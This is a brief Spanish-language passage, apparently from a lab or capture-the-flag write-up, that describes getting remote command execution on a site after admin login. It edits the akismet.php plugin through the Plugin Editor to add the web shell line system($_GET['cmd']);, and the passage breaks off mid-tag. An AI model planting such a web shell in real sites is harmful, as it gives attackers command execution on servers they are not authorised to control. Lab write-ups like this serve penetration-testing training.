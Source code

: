 <div align='center'>
  <img src='img/dashboard.png' width='400' alt='Machine Image'>
</div>

## Injeccion remota de comandos

Una vez logueados como admin en el panel de control nos dirijimos a Plugin Editor para editar el pluging llamado akismet.php
donde agregaremos la siguiente linea para aplicar un RCI (Remote Code Injection)

```bash
 system($_GET['cmd']);
```

<div align='center'>